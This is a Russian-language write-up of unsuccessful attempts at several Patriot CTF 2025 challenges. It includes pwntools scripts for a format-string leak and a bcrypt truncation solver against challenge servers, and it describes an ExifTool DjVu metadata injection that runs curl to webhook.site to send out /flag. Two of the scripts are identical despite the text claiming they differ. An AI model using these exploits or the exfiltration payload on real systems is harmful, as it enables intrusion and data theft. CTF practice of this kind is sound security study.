[Patriot CTF 2025](https://pctf.competitivecyber.club)



Пробовала разные задачи, ни одна не получилась, ниже некоторые из попыток.

---

***Kittiez!!!!!***
---



К задаче приложен файл.



Пробовала искать изображение по хэш-коду на многих сайтах, ни на одном не прошло, ниже некоторые из неудачных попыток.




---

***cursed format***
---



Для решения напишем скрипт, который многократно подключается к удалённому сервису, каждый раз дожидается появления текстового меню, выбирает первый пункт и отправляет строку формата вида %N$sEND. Таким образом программа по очереди «просит» сервер вывести разные параметры из стека как строку, а затем считывает весь ответ и проверяет его на наличие подстрок, похожих на флаг. Если бы такая строка встретилась, скрипт вывел бы её и остановил перебор.

```python
from pwn import *

HOST = "18.212.136.134"
PORT = 8887

FMT_SIZE = 0x20

def encode(desired: bytes, key: bytes):
    desired = desired.ljust(FMT_SIZE, b"\x00")[:FMT_SIZE]
    encoded = bytes([desired[i] ^ key[i] for i in range(FMT_SIZE)])
    new_key = desired
    return encoded, new_key


for i in range(1, 25):
    print(f"[+] try %{i}$p")

    key = bytes([0xff] * FMT_SIZE)

    io = remote(HOST, PORT)

    io.recvuntil(b">> ")

    io.send(b"1".ljust(FMT_SIZE, b"\x00"))

    fmt = f"%{i}$p\n".encode()
    encoded, key = encode(fmt, key)
    io.send(encoded)

    data = io.recvuntil(b">> ", timeout=2)
    io.close()

    first_line = data.splitlines()[0]
    print(first_line.decode("latin-1", errors="ignore"))
    print()
```

Но, как видим, в выводе программы, такой строки не нашлось.



Тогда напишем другой скрипт, он также подключается к удалённому сервису, но уже учитывает особенность задачи: перед использованием строка на сервере побайтно складывается по XOR с некоторым ключом. 

```python
from pwn import *

HOST = "18.212.136.134"
PORT = 8887

FMT_SIZE = 0x20

def encode(desired: bytes, key: bytes):
    desired = desired.ljust(FMT_SIZE, b"\x00")[:FMT_SIZE]
    encoded = bytes([desired[i] ^ key[i] for i in range(FMT_SIZE)])
    new_key = desired
    return encoded, new_key


for i in range(1, 25):
    print(f"[+] try %{i}$p")

    key = bytes([0xff] * FMT_SIZE)

    io = remote(HOST, PORT)

    io.recvuntil(b">> ")

    io.send(b"1".ljust(FMT_SIZE, b"\x00"))

    fmt = f"%{i}$p\n".encode()
    encoded, key = encode(fmt, key)
    io.send(encoded)

    data = io.recvuntil(b">> ", timeout=2)
    io.close()

    first_line = data.splitlines()[0]
    print(first_line.decode("latin-1", errors="ignore"))
    print()
```

Таким образом удалось получить утечки некоторых адресов из стека процесса, но среди них нет читаемых строк и нет фрагментов, похожих на флаг. Полученной информации оказалось недостаточно, чтобы по ней восстановить расположение флага и успешно завершить задание.



Пробуем другой скрипт, который комбинирует оба подхода: он учитывает побайтовое сложение по XOR с постоянным ключом 0xff и при этом использует спецификатор формата %i$s, чтобы попытаться вывести строковые данные из разных позиций параметров функции.

```python
from pwn import *

HOST = "18.212.136.134"
PORT = 8887

FMT_SIZE = 0x20

def encode(desired: bytes) -> bytes:
    desired = desired.ljust(FMT_SIZE, b"\x00")[:FMT_SIZE]
    key = bytes([0xff] * FMT_SIZE)
    encoded = bytes([desired[i] ^ key[i] for i in range(FMT_SIZE)])
    return encoded

for i in range(1, 40):
    print(f"[+] try %{i}$s")

    io = remote(HOST, PORT)
    io.recvuntil(b">> ")

    io.send(b"1".ljust(FMT_SIZE, b"\x00"))

    fmt = f"%{i}$sEND\n".encode()
    payload = encode(fmt)
    io.send(payload)

    data = io.recvall(timeout=2)
    io.close()

    try:
        print(data.decode("latin-1", errors="ignore"))
    except:
        print(data)

    if b"pctf{" in data.lower():
        print("[+] POSSIBLE FLAG HERE ^^^")
        break
```

В ответах не появляется ни одной подстроки, похожей на формат флага.



---

***Reverse Metadata Part 1***
---



Видим подсказку про Exiftool и пробуем вызвать ошибку в обработке метаданных изображения. Для этого создаем текстовый файл с полем metadata, в котором вместо обычных данных записываем команду id. Затем этот текст преобразовываем в специальный двоичный блок , собрираем из него файл формата DjVu и маскируем его под картинку evil.jpg, после чего этот файл загружаем на сайт задания. Однако после загрузки ничего не произошло, уязвимость не сработала, и получить флаг таким способом не удалось.


Тогда пробуем иначе. В текстовый файл payload запишем специальное поле metadata, внутри которого вместо обычных данных команда оболочки: запустить curl на адрес сервиса webhook.site и в запросе передать содержимое файла /flag. Затем этот текст снова упаковываем в DjVu-файл и загружаем на сервер задания. Проверка локально показала, что запрос на webhook действительно приходит, но после загрузки файла в веб-форму никаких новых запросов на webhook не появилось, то есть команда на удалённом сервере фактически не запускается. В итоге получить флаг таким способом так и не удалось.



---

***Vibe Bank Vault***
---



Для решения задания напишем скрипт, который автоматически проходит все пять уровней «банковского хранилища». Он воспроизводит на своей стороне специальный хеш на основе bcrypt и заданной соли, по утёкшей части пароля подбирает недостающие символы, затем по очереди выполняет условия уровней: создает строки с одинаковым хешем, подбирает более короткий эквивалент пароля нужной длины, упрощает длинный пароль с повторяющимися символами до 72 байт и в конце повторно использует найденный префикс для доступа на административный уровень.

```python
from pwn import *
import re
import base64
import bcrypt
import string

HOST = "18.212.136.134"
PORT = 6666

STATIC_SALT = b"$2b$12$C8YQMlqDyz3vGN9VOGBeGu"

def vibe_hash_local(s: str) -> str:
    payload = s.encode("utf-8")
    portion = payload[: len(payload) % 256]
    digest = bcrypt.hashpw(portion, STATIC_SALT)
    return "vb$1$" + base64.b64encode(digest).decode()

def solve_one():
    r = remote(HOST, PORT)

    r.recvuntil(b"Leaked Note:")
    leaked_part = r.recvline().decode().strip()
    r.recvuntil(b"Target Hash:")
    target_hash = r.recvline().decode().strip()
    r.recvuntil(b"Enter password")

    log.info(f"Leaked first part: {leaked_part}")
    log.info(f"Target hash: {target_hash}")

    charset = string.ascii_letters + string.digits
    prefix72 = None
    for c1 in charset:
        for c2 in charset:
            cand = leaked_part + c1 + c2
            if vibe_hash_local(cand) == target_hash:
                prefix72 = cand
                log.success(f"[L1] Found prefix72 = {prefix72}")
                break
        if prefix72:
            break
    if not prefix72:
        log.failure("Cannot find prefix72")
        r.close()
        return

    r.sendline(prefix72.encode())

    r.recvuntil(b"I'll give you a prefix:")
    line = r.recvline().decode()
    m = re.search(r"prefix:\s*'([^']+)'", line)
    prefix = m.group(1)
    log.info(f"[L2] Prefix = {prefix}")
    r.recvuntil(b"Format:")

    plen = len(prefix)
    s1 = prefix + "A" * (256 - plen)
    s2 = prefix + "B" * (512 - plen)
    r.sendline(f"{s1},{s2}".encode())
    log.success("[L2] Collision sent")

    r.recvuntil(b"The manager's password is very long")
    line = r.recvline().decode()
    m = re.search(r"very long \((\d+)", line)
    target_len = int(m.group(1))
    log.info(f"[L3] target_len = {target_len}")
    r.recvuntil(b"Enter the equivalent password")

    R = target_len % 256
    user3 = "B" * R
    r.sendline(user3.encode())
    log.success("[L3] Short B^R password sent")

    r.recvuntil(b"The target password is:")
    line = r.recvline().decode()
    m = re.search(r"password is:\s*(\d+)\s*'C's\s*\+\s*(\d+)\s*'🔥'", line)
    pad_len = int(m.group(1))
    emoji_count = int(m.group(2))
    log.info(f"[L4] pad_len={pad_len}, emoji_count={emoji_count}")
    r.recvuntil(b"Enter password")

    k = (72 - pad_len) // 4
    cand4 = "C" * pad_len + "🔥" * k
    assert len(cand4.encode()) <= 72
    r.sendline(cand4.encode())
    log.success("[L4] Truncated C+🔥 password sent")

    r.recvuntil(b"SecretPassword:")
    line = r.recvline().decode()
    m = re.search(r"SecretPassword:\s*(\d+)", line)
    admin_len = int(m.group(1))
    log.info(f"[L5] admin_len = {admin_len}")
    r.recvuntil(b"Input your password")

    r.sendline(prefix72.encode())
    log.success("[L5] Sent prefix72 for aux token")

    out = r.recvall(timeout=2).decode(errors="ignore")
    print(out)
    r.close()

if __name__ == "__main__":
    solve_one()
```

При запуске скрипта удалённое соединение с сервером устанавливается, утечка и целевой хеш успешно считываются, а первый префикс пароля корректно подбирается и отправляется. Однако после перехода к следующему этапу сервер разрывает соединение. Таким образом, несмотря на реализованную логику для всех уровней, автоматизированное прохождение прерывается на середине диалога с сервисом, и флаг получен не был.


